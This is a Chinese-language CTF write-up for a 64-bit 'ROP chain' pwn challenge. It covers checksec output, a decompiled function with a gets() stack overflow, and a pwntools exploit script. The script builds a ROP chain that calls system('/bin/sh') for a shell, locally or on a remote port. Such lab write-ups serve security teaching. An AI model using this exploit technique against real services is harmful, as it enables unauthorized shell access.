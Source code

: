 # ROP链

- 作者：pn1fg
- 参考：
- 难度：Medium
- 分类：Pwn
- 镜像：-
- 端口：70

# 题目描述

最简单的ROP链

# 题目解析

- 源码：[pwn.c](build/pwn.c)
- 考点：64位ROP链

由于出题目的时间跨度有点大，导致本题与上题`ret2text_64`题目重合，为表达歉意，我们就不更换题目了，这道题目赠送给各位同学们

这里和同学们简单分析一下

#### 查看文件信息

查看文件类型：

```shell
>>> file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9c5a0203058595c56d22e89b7c4b45869bb959de, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    ulong s;

    sym.imp.system("echo You know the size of the input data?");
    sym.imp.gets(&s);
    return;
}
```

`gets`函数可以读入无限制长度的字符（直到换行`\n`），导致超出`s`长度，覆盖`rbp`，造成栈溢出

构造利用都与上题一致

#### 编写利用程序：

exp 也可以和上题共用，这里就演示一个

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote(IP,port)
else:
    io = process('./pwn')

elf = ELF("./pwn")
rop = ROP(elf)

rop.raw(cyclic(0x70 + 8))
rop.raw(rop.find_gadget(["ret"]))
rop.call(elf.sym["system"], [next(elf.search(b"/bin/sh"))])

payload = rop.chain()
io.sendlineafter(b'a?\n',payload)
io.interactive()
```
